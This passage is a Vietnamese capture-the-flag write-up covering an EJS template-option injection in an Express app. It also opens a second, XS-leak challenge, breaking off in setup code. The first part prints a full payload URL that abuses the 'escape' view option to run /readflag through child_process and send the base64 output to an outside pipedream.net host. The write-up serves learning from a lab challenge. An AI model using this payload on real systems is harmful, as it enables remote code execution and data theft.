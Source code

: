 ```js
    }

    return res.render('greet', {
        ...JSON.parse(data),
        cache: false
    });
});

app.listen(3000, () => {
    console.log('Server listening on port 3000')
})
```
Có 5 options có thể gây ra RCE bao gồm: `outputFunctionName`, `escapeFunction`, `escape`, `localsName`, `destructuredLocals`. Bài đã filter 4 cái còn lại mỗi `escape`, để có thể trigger được escape, ta cần điều kiện là option client không null (Đọc code để biết thêm, mình lười lục lại wa).

Payload:
```
/greet?name=ehehhee&font=Arial&fontSize=20&settings[view%20options][client]=notempty&settings[view%20options][escape]=JSON.stringify;console.log(global.process.mainModule.require('http').get('http://eov5gzrmq5p9826.m.pipedream.net',%20{headers:%20{'User-Agent':global.process.mainModule.require('child_process').execSync('/readflag').toString('base64')}}))&debug=true
```

Exploit:

<img width="805" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/a8c07e95-ccc8-48d1-a5fa-1bba04d50d54">

Flag:

<img width="535" alt="Screenshot 2023-08-25 170601" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/8b30ea74-49b6-41eb-ab60-fce85a4864f8">

Link research:
- https://kerupuksambel.medium.com/pwn2win-2021-ctf-writeup-illusion-88f6c7737de3
- https://kerupuksambel.medium.com/pwn2win-2021-ctf-writeup-illusion-88f6c7737de3
- https://jorgectf.github.io/blog/post/finding-prototype-pollution-gadgets-with-codeql/

Khi debug ở máy, nên bật debug=true để xem nội dung src được chèn.

## MANDATORY NOTES

Một bài xsleak ý tưởng từ max url length của chrome, khá là hay nên mình làm lại sau giải.

```js
const express = require('express');
const session = require('express-session');
const bodyParser = require('body-parser');
const crypto = require('crypto');
const path = require('path');

const app = express();

app.use(express.static('static'))

app.use(session({
    secret: crypto.randomBytes(64).toString('hex'),
    resave: false,
    saveUninitialized: false,
    cookie: { sameSite: 'lax' }
}))

app.use(bodyParser.urlencoded({ extended: false }));

const initSession = (req, res, next) => {
    if (!req.session.notes) {
        req.session.notes = [];
```